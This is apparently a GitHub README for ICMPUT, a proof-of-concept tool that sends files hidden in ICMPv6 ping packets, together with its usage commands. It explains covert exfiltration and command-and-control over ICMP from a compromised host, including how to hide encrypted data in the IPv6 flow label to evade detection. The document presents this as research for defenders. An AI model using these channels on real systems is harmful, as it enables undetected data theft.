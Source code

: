# ICMPUT
PoC for transferring files via ICMP Echo Request (alias Ping) packets. Currently this only supports Linux and [ICMP for IPv6](https://www.rfc-editor.org/rfc/rfc4443#section-4.1), but I may add to it in the future.

The discussion below goes into many aspects of this idea which are not implemented here. I may implement some of this stuff sporadically if I end up needing them in practise.

## Usage
This is just a prototype implementation with some - undesirable - properties, but feel free to play around it if you want. It likely will not brick your system, but I wouldn't let it run for hours on end.

### Sender
```bash
make bin/icmput
gcc icmput.c -o bin/icmput
./icmput -f <filepath> -d <destination Ip or domain>`
```

### Receiver
```bash
# you can check the incoming data e.g. with tcpdump
tcpdump -X 'icmp6[0]==128' # 128 are ICMP6 echo requests, 129 would be replies

# this repo comes with a prototype receiver which starts writing a new file
# for every echo request identifier
# it is based on libpcap and assigns the relevant permissions during make,
# such that sudo is not required for running the server
make bin/icmput_server
./bin/icmput_server
```

## But why?
TL;DR: Security pracitioners may inspect TCP/UDP traffic thoroughly but not really check ICMP. Also misconfigured firewalls may block suspicious TCP/UDP traffic but generously let all outgoing ICMP traffic pass. How else would they debug network issues if they couldn't ping google.com?

### Background
This is just a little experiment of mine which was born from an observation I made when working for Cyber Security/Blue Teaming Courses for Traffic Analysis:
These courses often suggest something like *"To detect malicious traffic like data theft, payload upload and C2 traffic, we have to look for anomalies in TCP and UDP network traffic"*. But guess what, not all traffic is [TCP](https://www.ietf.org/rfc/rfc9293.html) or [UDP](https://www.rfc-editor.org/rfc/rfc768). Another common protocol is Internet Control Message Protocol ([ICMP](https://www.rfc-editor.org/rfc/rfc792) and [ICMP6](https://www.rfc-editor.org/rfc/rfc4443)).

As the name suggests, ICMP is intended as a supporting protocol. RFC792 states:
*ICMP messages are sent in several situations:  for example, when a datagram cannot reach its destination, when the gateway does not have the buffering capacity to forward a datagram, and when the gateway can direct the host to send traffic on a shorter route.*

The most common case where end users *intentionally* send ICMP messages is when they ping a network-connected host for diagnosis, e.g. `ping www.google.com`. `ping` is just a utility to send/receive so called *ICMP Echo Requests/Replies* and print the relevant statistics.

### The Idea
The theoretical idea behind **Information Security** is that no unauthorized [Information Flow](https://dl.acm.org/doi/pdf/10.1145/360051.360056) is possible, i.e. that confidential information may not flow to any unauthorized sink. In a strict but more practical sense, this means that confidential information may not influence the *publically* (i.e. by outsiders) observable behavior in any way, at least not in a way which allows outsiders to draw conclusions about confidential information. Despite not being discussed in many traffic analysis courses, ICMP messages can be send in a (semi-)controlled manner if an attacker compromises a victim system, allowing to establish an uni- or bidirectional information flow between the victim system and the attackers machine.


### Options for transferring data via ICMP Echo Requests
Just for fun, lets first assume that we as adversaries couldn't control the packet contents and headers at all. In this case we could still transfer data like this:
- Using a fixed interval, either send (x==1) or not send (x==0) data based on a secret bit x (this would be extremely slow, even at 10 packets per second)
- Modulate the packet frequency to build some kind of morse code

But this is just hypothetical. In practise, ICMP Echo Requests have plenty opportunities to embed data which are unused by casual `ping` users:
- Most obviously, ICMP packets have a variable-length **data** field which we can fill as we want. However, this may be picked up by anomaly detection as e.g. the default ping utilities usually fill the data field with a fixed pattern
- **TTL/Hop Limit** (IP header): While the exact number of hops is not fixed (due to packet-switched delivery), we can modulate these values in increments to transfer information (again, may be picked up by anomaly detection)
- **IPv6 Flow Label**: This 20-bit value is interesting as it is usually randomly chosen by the kernel unless explicitly set. You know what else looks (almost) exactly like random data? Encrypted data! By setting the flow label to 20 bit of encrypted data each time without touching the data field, we look exactly like normal ping activity.
- **Identifier**: Similar to flow label, but part of the ICMP header instead of the IP header

Unfortunately, not all of these are available to us if we do not have elevated privileges on the victim machine. If we use sockets of type `SOCK_DGRAM` (works unprivileged) instead of `SOCK_RAW`, the kernel e.g. e.g. might set its own identifier value in the ICMP header. Nevertheless, even if we needed root privileges, the ability to send data via ICMP itself is already pretty neat.

### C2 via ICMP
Obfuscation of Command and Control (C2) traffic is nothing new. For example, a common strategy is to issue DNS requests from a victim host and encode the C2 servers reply in the DNS response. This is why many courses teach SoC and Blue Teamers to also have a stern look at DNS traffic (which is mostly port 53 UDP). C2 via ICMP is also possible: Just store whatever your C2 server shall send to the victim in the ICMP Echo Reply. This can be fiddly on some server OSes as the kernel very much wants to handle ICMP traffic itself. On Linux you can e.g. control this with `/proc/sys/net/ipv[4|6]/icmp/echo_ignore_all`.
